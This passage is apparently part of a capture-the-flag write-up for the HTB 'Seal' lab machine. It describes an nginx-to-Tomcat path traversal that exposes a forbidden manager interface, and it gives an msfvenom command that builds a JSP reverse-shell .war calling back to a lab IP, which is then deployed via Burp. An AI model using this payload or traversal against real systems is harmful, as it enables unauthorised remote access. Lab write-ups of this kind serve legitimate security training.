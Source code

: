 # user 1
![](seal.htb-11.gif)
- A reverse proxy path traversal vulnerability exists for this version of nginx when pair with Tomcat

![](seal.htb-12.gif)
- The vulnerability can be used to access the interface that was previously forbidden.
- On the animation above, the sequence was recorded after the initial logon, this is the reason the username and password prompt is not being seen (session still active)

<hr>

## generate the .war file

````bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f war -o qdadashell.war
````

## deploy payload 

![](seal.htb-13.gif)
- start listener and deploy the payload, taking care to modify the path in Burp
